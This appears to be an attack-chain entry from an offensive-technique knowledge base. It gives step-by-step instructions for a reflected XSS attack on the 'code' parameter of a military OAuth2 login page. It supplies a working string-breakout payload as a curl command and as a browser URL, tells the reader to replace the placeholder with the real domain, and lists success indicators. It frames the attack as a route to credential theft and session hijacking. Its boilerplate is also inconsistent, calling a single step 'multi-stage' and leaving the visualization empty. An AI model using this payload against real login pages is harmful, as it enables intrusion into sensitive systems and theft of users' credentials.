

---
tags:
  - xss
  - reflected-xss
  - javascript-injection
  - credential-theft
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Reflected-XSS-in-Code-Parameter]]'
step_count: 1
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:52:39.120Z'
description: >-
  A single-stage attack exploiting a reflected XSS vulnerability in the 'code'
  parameter of a military login page, allowing arbitrary JavaScript execution to
  steal credentials or hijack sessions.
skill_level: beginner
impact_level: high
id: 73f74865-8abd-4e7e-b140-98fe68bdcbfd
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Reflected XSS in Login Page Code Parameter for Arbitrary JavaScript Execution

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome Developer Tools for payload testing)

### Target Environment

- Web platform with JSP-based login page (e.g., SSORedirect.jsp)
- OAuth2 services
- No specific ports required; accessible via HTTPS

### Initial Access Requirements

- Public access to the target URL (https://target.mil/)
- No credentials needed for exploitation
- Network access to the internet-facing login page

## Detailed Attack Procedures

### Step 1: Inject Payload into Code Parameter
procedure: [[procedures/Exploit-Reflected-XSS-in-Code-Parameter]]

**Objective**: Craft and deliver a malicious URL to break out of the JavaScript string context and execute arbitrary code on the victim's browser.

**Instructions**: Access the target login page and append a crafted payload to the 'code' parameter. The payload closes the existing JavaScript string with a single quote, injects the alert, and balances the syntax with a dummy variable declaration. Use a browser or curl to test:

First, construct the URL:

```bash
curl "https://target.mil/?code=xxx';alert\`XSS\`;var%20x='" -v
```

Or navigate directly in a browser to: https://target.mil/?code=xxx';alert`XSS`;var%20x='

Replace 'target.mil' with the actual domain. Observe the page load and execution.

**Expected Output**: An alert box pops up displaying 'XSS' on the login page, confirming JavaScript execution.

**Success Indicators**:
- Alert popup appears without errors
- Page source shows injected code executed in the inline JavaScript
- No syntax errors in browser console

## Attack Chain Summary

### Key Achievements

1. Successful breakout from JavaScript string via unescaped single quote
2. Arbitrary JavaScript execution on a sensitive OAuth2 login page
3. Potential for credential theft or session hijacking demonstrated

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
